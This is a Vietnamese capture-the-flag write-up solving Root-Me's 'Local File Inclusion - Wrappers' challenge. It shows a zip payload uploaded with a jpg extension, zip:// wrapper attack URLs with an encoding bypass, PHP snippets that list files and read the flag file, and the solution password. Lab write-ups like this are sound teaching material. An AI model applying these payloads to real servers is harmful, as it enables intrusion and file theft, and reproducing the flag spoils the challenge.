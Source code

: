 # Challenge: Local File Inclusion - Wrappers
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Wrappers

- Thử thách cho ta gởi file có định dạng jpg lên web, và sau đó hiển thị lên màn hình
<p align="center"><img src="./images/3.1.png"></p>

- Sau khi kiểm tra thì ta thấy server không kiểm tra file chỉ kiểm tra phần mở rộng, do vậy ta có thể upload 1 file bất kỳ và thay đổi phần mở rộng là được.

- Ta thấy trang được tạo ra sau khi upload file có đường dẫn là 
>http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=wjIiyg5f0

- Tham số page sẽ render ra trang, ta thử một giá trị bất kì, thì ta thấy được nó được server `include([page].php)`
<p align="center"><img src="./images/3.2.png"></p>

- Tham khảo `LFI / RFI using wrappers` ở đây ta sẽ dùng [Wrapper zip://](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-zip)
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers

- Thực hiện tạo file payload như bài tham khảo ta được, đường dẫn của file upload được lưu tại "tmp/upload/aAAH7zdoO.jpg"
<p align="center"><img src="./images/3.3.png"></p>

- đường dẫn attack lúc này sẽ là: 
> http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/aAAH7zdoO.jpg%23payload
--> page name too long

- Ta thay lại payload = a
> http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/aAAH7zdoO%252ejpg%23a
<p align="center"><img src="./images/3.5.png"></p>
<p align="center"><img src="./images/3.4.png"></p>

- Mặc dù có lỗi những có vẻ như chúng ta đã làm đúng hướng
- Liệt kê các các file trong thư mục hiện tại 
```
<?php $scan=scandir("."); foreach($scan as $file){echo "$file\n";} ?>
```
<p align="center"><img src="./images/3.6.png"></p>
<p align="center"><img src="./images/3.7.png"></p>

- Ta thấy có file `flag-mipkBswUppqwXlq9ZydO.php` ta tiến hành đọc nó:
```
<?php $data = file_get_contents("flag-mipkBswUppqwXlq9ZydO.php"); echo $data; ?>
```
<p align="center"><img src="./images/3.8.png"></p>
<p align="center"><img src="./images/3.9.png"></p>

## Kết quả password là `lf1-Wr4pp3r_Ph4R_pwn3d`
